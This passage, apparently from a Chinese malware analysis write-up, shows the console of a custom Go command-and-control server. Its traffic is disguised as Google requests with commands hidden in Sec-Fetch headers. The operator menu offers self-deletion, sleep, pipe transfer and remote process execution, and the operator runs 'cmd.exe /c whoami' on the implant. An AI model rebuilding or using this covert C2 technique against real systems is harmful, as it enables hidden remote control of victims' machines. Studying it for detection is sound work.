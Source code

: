 [![](assets/1701827602-81d08cae09e8736b93c083f95c97048f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205154647-719088c8-9342-1.png)

相关操作命令如下：

```plain
F:\GolandProjects\awesomeProject1>awesomeProject1.exe
Server started. Listening on 0.0.0.0:8000
POST /login.php HTTP/1.1
Host: www.google.com
Connection: keep-alive
Cache-Control: max-age=0
Sec-Fetch-Mode: 10
Sec-Fetch-User: S-WIN-JMKXXXXXOT
Sec-Fetch-Dest: 01


请选择需执行的功能:exit、help、11、12、30、33、34
>help
********支持功能如下********
11：样本自删除
12：休眠1小时
30：向管道传输数据
33：创建进程，并返回进程回显信息
34：终止33指令运行的进程程序
**************************
请选择需执行的功能:exit、help、11、12、30、33、34
>33
33指令-请输入需执行的命令：quit-返回上层指令
>cmd.exe /c whoami
HTTP/1.1 200 OK
Content-Type: text/html
Sec-Fetch-Mode: 33
Content-Length: 18


GET http://www.google.com/search?q&cp=0&xssi=t&hl=en&authuser=1&nolsbt=1&dpr=1 HTTP/1.1
Sec-Fetch-Mode: 30
```